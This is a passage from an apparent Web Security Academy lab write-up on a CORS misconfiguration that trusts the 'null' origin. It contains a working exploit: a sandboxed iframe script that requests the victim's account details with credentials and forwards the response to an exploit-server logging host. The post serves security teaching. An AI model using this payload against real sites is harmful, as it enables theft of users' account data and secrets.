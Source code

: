 ![](https://miro.medium.com/max/770/1*cKXdyxcNmZgPsx0Q0O9ySQ.png)

Because our domain is not in white-listed domains.

We can try setting our origin value to null and see what response we get.

![](https://miro.medium.com/max/770/1*lT_I8-PH6Tz3jbYmXNvnGw.png)

Looks like the developer forgot to remove null from the list of white-listed domains.

Now as we need to write a script that uses this vulnerability to fetch us the data of the victim.

```bash
<html>  
<body>  
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>  
    var req = new XMLHttpRequest();  
    req.onload = reqListener;  
    req.open('get','[https://0a73002703504f63c036079300b20068.web-security-academy.net/accountDetails',true](https://0a73002703504f63c036079300b20068.web-security-academy.net/accountDetails',true));  
    req.withCredentials = true;  
    req.send();  
    function reqListener() {  
        location='[https://exploit-0a0600c503a24f9ec0e6070d015300d2.exploit-server.net/log?key='+encodeURIComponent(this.responseText);](https://exploit-0a0600c503a24f9ec0e6070d015300d2.exploit-server.net/log?key=%27+encodeURIComponent(this.responseText);)  
    };  
</script>"></iframe>  
</body>  
</html>

The iframe will help us originate the request with a null origin and after that, the response will be added to our logs. If we click to view our exploit and Monitor closely our traffic in the interceptor.

![](https://miro.medium.com/max/770/1*NAtapNWWEH_o6Sny8Txd-A.png)

We can see the request is made using a null origin.

I hope you like this blog. In the upcoming blog, we will discuss more ways to exploit CORS and How we can prevent CORS vulnerabilities.

If you like it Consider following me.

See y’all next time till then.

Happy Hacking ❤!

## From Infosec Writeups: A lot is coming up in the Infosec every day that it’s hard to keep up with. [Join our weekly newsletter](https://weekly.infosecwriteups.com/) to get all the latest Infosec trends in the form of 5 articles, 4 Threads, 3 videos, 2 GitHub Repos and tools, and 1 job alert for FREE!

[

Cybersecurity

](https://medium.com/tag/cybersecurity?source=post_page-----b4179235728b---------------cybersecurity-----------------)

[

Hacking

```